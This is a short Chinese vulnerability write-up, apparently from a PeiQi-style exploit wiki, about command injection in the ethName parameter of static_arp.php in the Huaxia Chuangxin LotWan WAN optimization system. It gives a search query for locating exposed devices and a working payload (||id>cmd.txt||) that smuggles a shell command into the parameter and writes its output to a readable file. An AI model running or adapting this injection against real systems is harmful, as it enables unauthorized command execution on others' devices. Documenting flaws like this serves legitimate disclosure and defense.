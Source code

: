 # 华夏创新 LotWan广域网优化系统 static_arp.php 远程命令执行漏洞

## 漏洞描述

华夏创新 LotWan广域网优化系统 static_arp.php文件参数 ethName存在命令拼接，导致远程命令执行漏洞

## 漏洞影响

<a-checkbox checked>华夏创新 LotWan广域网优化系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="LotWan 广域网优化系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1635942598942-6671fa50-5052-43f6-ab40-bf2c8403bdf8-20220314123722094.png)

存在漏洞的文件为

```php
/acc/bindipmac/static_arp.php?ethName=||id>cmd.txt||
```

![img](/assets/PeiQi-Wiki/img/1635942680846-eb442f59-4229-43ad-a133-5c5587d20774.png)

再访问 `/acc/bindipmac/cmd.txt`

![img](/assets/PeiQi-Wiki/img/1635942700371-15189d95-a643-4b0d-95bb-14f6285796d2.png)

